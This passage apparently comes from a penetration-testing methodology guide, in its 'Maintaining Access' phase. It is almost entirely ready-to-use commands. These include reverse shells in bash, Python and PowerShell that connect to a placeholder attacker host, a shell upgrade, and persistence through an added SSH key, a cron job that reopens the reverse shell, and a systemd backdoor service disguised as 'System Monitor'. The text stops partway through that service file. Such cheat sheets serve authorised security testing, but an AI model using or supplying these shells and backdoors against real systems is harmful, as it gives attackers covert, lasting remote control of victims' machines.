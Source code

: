 
## Phase 6: Maintaining Access

*Goal: Establish persistent access for ongoing testing*

### 6.1 Shell Establishment

#### Reverse Shells
```bash
# Set up listener
nc -lvnp 4444

# Bash reverse shell
bash -i >& /dev/tcp/attacker_ip/4444 0>&1

# Python reverse shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker_ip",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PowerShell reverse shell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('attacker_ip',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

#### Shell Upgrades
```bash
# Upgrade to fully interactive TTY
python -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo
fg
# Press Enter twice
export SHELL=/bin/bash
export TERM=xterm-256color
stty rows 38 columns 116
```

### 6.2 Persistence Mechanisms

#### Linux Persistence
```bash
# SSH keys
mkdir ~/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2E..." >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys

# Cron jobs
(crontab -l 2>/dev/null; echo "*/5 * * * * /bin/bash -c 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1'") | crontab -

# Service creation
cat > /etc/systemd/system/backdoor.service << 'EOF'
[Unit]
Description=System Monitor

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1'
Restart=always
```